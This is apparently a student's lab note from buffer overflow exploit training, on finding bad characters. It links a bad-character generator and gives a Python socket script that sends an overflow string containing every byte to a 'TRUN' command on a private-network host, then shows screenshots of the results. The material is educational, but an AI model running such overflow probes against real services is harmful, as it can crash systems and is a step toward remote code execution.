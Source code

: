 Finding bad characters

Wednesday, June 21, 2023

9:21 PM

[cytopia/badchars: Bad char generator to instruct encoders such as shikata-ga-nai to transform those to other chars. (github.com)](https://github.com/cytopia/badchars)

 

 

 

Can install or can copy these scripts

 

New code

#!/usr/bin/python

import sys, socket

 

badchars = (

\"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\"

\"\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\"

\"\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\"

\"\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\"

\"\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\"

\"\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\"

\"\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\"

\"\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\"

\"\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\"

\"\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\"

\"\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\"

\"\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\"

\"\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\"

\"\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\"

\"\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\"

\"\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff\")

shellcode = \"A\" \* 2003 + \"B\" \* 4 + badchars

try:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((\'192.168.1.221\',9999))

s.send((\'TRUN /.:/\' +shellcode))

s.close()

except:

print \"Error connecting to the server\"

sys.exit()

 

![](005_Finding_bad_characters_000.png){width="3.40625in" height="3.9791666666666665in"}

No bad chars

 

Example of bad chars

![](005_Finding_bad_characters_001.png){width="4.020833333333333in" height="4.520833333333333in"}

 
